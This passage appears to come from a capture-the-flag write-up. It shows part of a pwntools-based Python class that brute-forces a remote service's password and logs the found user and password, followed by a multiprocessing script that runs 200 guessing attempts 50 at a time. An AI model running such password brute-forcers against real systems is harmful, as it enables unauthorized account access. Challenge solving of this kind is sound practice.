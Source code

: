 ```python
            log.warning("Something after phonetic alphabet, resorting to brute force")
            self.brute_force(password)
        except SuccessfulConnection as e:
            log.info("We're in!")
            out = self.r.recvall(0.1)
            msg = e.args[0] + out.decode()
            log.info(f"Guesses: {self.guesses}")
            log.info(f"User: {self.user}")
            log.info(f"Password: {self.password}")
            log.info(f"MSG: {msg}")
            return True, self.guesses, self.password, self.user, self.incorrect
        except (Timeout, EOFError, AssertionError):
            return False, self.guesses, self.password, self.user, self.incorrect
        except Exception as e:
            log.exception(e)
            return False, self.guesses, self.password, self.user, self.incorrect
        finally:
            self.r.close()
```

And wrote a bulk guesser script

```python
import multiprocessing
from guesser import Guesser
from pwn import *

PARALLELISM = 50
SAMPLES = 200

def run_guess(idx):
    log.info(f"Starting {idx}")
    try:
        guesser = Guesser()
        return guesser.solve()
    except:
        return None

def main():
    with multiprocessing.Pool(PARALLELISM) as p:
        results = p.map(run_guess, range(SAMPLES))
    res_string = "\n".join(
        ",".join(str(x) for x in res) for res in results if res is not None
    )
    print(res_string)
    with open("results.csv", "a+") as f:
        f.write(res_string + "\n")

if __name__ == "__main__":
    main()
```
